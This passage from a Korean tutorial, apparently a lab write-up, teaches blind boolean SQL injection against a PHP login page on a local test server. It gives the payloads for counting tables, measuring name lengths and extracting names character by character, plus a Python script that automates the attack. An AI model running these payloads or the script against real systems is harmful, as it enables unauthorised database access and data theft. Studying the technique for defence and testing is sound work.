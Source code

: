 ```py
            if REQUEST.text == 'Welcome test': DATABASE_NAME += s
    print(f'{DATABASE_NAME}')
```

결과는 다음과 같다.

	information_schema
	mysql
	test
	performance_schema

## **테이블 이름 확인**

참과 거짓의 결과 정보를 이용하여 테이블의 이름을 획득해보자.

먼저 COUNT를 이용하여 테이블의 수를 확인하자.

SELECT의 이중쿼리의 경우 출력결과가 1개로 나와야 하며 괄호를 이용하여 감싸준다.

URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

```py
QUERY       = requests.utils.quote(f'test\' AND (SELECT COUNT(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\')={i}#')
```

테이블 수만큼 반복하여 다음으로 테이블 이름의 문자열 길이를 알아내자.

```py
QUERY       = requests.utils.quote(f'test\' AND LENGTH((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\' LIMIT {i},1))={j}#')
```

다시 SUBSTR로 문자열을 하나씩 확인한다.

```py
QUERY   = requests.utils.quote(f'test\' AND ASCII(SUBSTR((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\' LIMIT {i},1),{j+1},1))={ord(s)}#')
```

다음의 Full Code로 모든 테이블의 이름을 확인해보자.

```py
import requests
import string

TARGET          = 'http://192.168.0.58/index.php'
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND (SELECT COUNT(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\')={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'Number of tables : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    TABLE_NAME_LENGTH    = 0
    TABLE_NAME           = ''
    for j in range(100):
        QUERY       = requests.utils.quote(f'test\' AND LENGTH((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\' LIMIT {i},1))={j}#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        REQUEST     = requests.get(url=URL)
        if REQUEST.text == 'Welcome test': TABLE_NAME_LENGTH = j
    for j in range(TABLE_NAME_LENGTH):
        for s in string.printable.strip():
```